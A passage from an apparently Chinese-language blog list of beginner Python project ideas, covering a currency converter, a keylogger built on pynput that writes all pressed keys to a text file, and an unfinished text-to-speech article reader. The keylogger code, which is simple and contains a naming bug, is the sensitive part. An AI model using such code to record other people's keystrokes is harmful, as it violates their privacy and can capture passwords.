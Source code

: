 
获取结果如下。

<img src="https://img-blog.csdnimg.cn/img_convert/90414c2d2041f50076d3669890dc2618.png">

**<strong><strong><strong><strong><strong>⑲**</strong></strong></strong> 货币换算器</strong></strong>

目的：编写一个Python脚本，可以将一种货币转换为其他用户选择的货币。

提示：使用Python中的API，或者通过forex-python模块来获取实时的货币汇率。

安装：forex-python

<img src="https://img-blog.csdnimg.cn/img_convert/0e07a6eb20df8f11612ae785a48a5862.png">

**<strong><strong><strong><strong><strong>⑳**</strong></strong></strong> 键盘记录器</strong></strong>

目的：编写一个Python脚本，将用户按下的所有键保存在一个文本文件中。

提示：pynput是Python中的一个库，用于控制键盘和鼠标的移动，它也可以用于制作键盘记录器。简单地读取用户按下的键，并在一定数量的键后将它们保存在一个文本文件中。

```
from pynput.keyboard import Key, Controller,Listener
import time
keyboard = Controller()


keys=[]
def on_press(key):
    global keys
    #keys.append(str(key).replace("'",""))
    string = str(key).replace("'","")
    keys.append(string)
    main_string = "".join(keys)
    print(main_string)
    if len(main_string)&gt;15:
      with open('keys.txt', 'a') as f:
          f.write(main_string)   
          keys= []     
def on_release(key):
    if key == Key.esc:
        return False

with listener(on_press=on_press,on_release=on_release) as listener:
    listener.join()


```

**<strong><strong><strong><strong><strong>㉑**</strong></strong></strong> 文章朗读器</strong></strong>

目的：编写一个Python脚本，自动从提供的链接读取文章。

```
import pyttsx3
import requests
from bs4 import BeautifulSoup
url = str(input("Paste article url\n"))

def content(url):
  res = requests.get(url)
  soup = BeautifulSoup(res.text,'html.parser')
  articles = []
  for i in range(len(soup.select('.p'))):
    article = soup.select('.p')[i].getText().strip()
    articles.append(article)
    contents = " ".join(articles)
  return contents
engine = pyttsx3.init('sapi5')
```